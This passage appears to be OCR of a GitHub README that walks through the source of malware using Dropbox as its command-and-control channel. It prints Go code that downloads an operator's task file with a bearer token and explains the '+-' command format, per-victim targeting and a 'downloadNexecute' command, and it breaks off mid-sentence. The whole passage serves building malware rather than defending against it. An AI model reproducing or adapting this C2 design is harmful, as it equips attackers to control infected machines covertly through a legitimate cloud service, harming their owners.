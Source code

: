 * `who the command is meant for+-the desired command+-optional arguments`
* EX: `everyone+-profile`



The only argument that would need to be pased to the *downloadDBFile* function is the Dropbox path of the file we wish to download, which is named *dbFileName*. In the case of issuing commands, the name of the task file which contains commands is named in the beginning of the code in the var() section. The location of the task file should be in the root folder of Dropbox.

```
func downloadDBFile(dbFilePath string) string {
	var dbFilePathPrefixed string
	if !strings.HasPrefix(dbFilePath, "/") {
		dbFilePathPrefixed = "/" + dbFilePath
		var bearer = "Bearer " + token
		downloadParams, _ := json.Marshal(map[string]string {
			"path": dbFilePathPrefixed,
		})
		request, _ := http.NewRequest("POST", "https://content.dropboxapi.com/2/files/download", nil)
		request.Header.Add("Authorization", bearer)
		request.Header.Add("Dropbox-API-Arg", string(downloadParams))
		resp, _ := client.Do(request)
		respbody, _ := ioutil.ReadAll(resp.Body)
		resp.Body.Close()
		return string(respbody)
	} else {
		var bearer = "Bearer " + token
		downloadParams, _ := json.Marshal(map[string]string {
			"path": dbFilePath,
		})
		request2, _ := http.NewRequest("POST", "https://content.dropboxapi.com/2/files/download", nil)
		request2.Header.Add("Authorization", bearer)
		request2.Header.Add("Dropbox-API-Arg", string(downloadParams))
		resp2, _ := client.Do(request2)
		respbody2, _ := ioutil.ReadAll(resp2.Body)
		resp2.Body.Close()
		return string(respbody2)
	}
}
```
Then after grabbing the data from the task file, we simply split it at the **+-** which is the separator, and interpret each piece one by one:

* The first piece being who the command is meant for. If it's issued to our unique identifier specifically or simple says "everyone"
* The second piece being the actual command
* The third piece is optional, it's any arguments meant for the command

There are also length checks to ensure the operator of the malware is providing enough arguments for commands. For example, if the operator only provides who the command is for and forgets to write the command, we will write this error to the log file and exit. Or if the operator fails to provide all arguments to a command such as the **downloadNexecute** command, we write this error to the log file & exit. This all occurs in the main() function, here's a snippet of what'
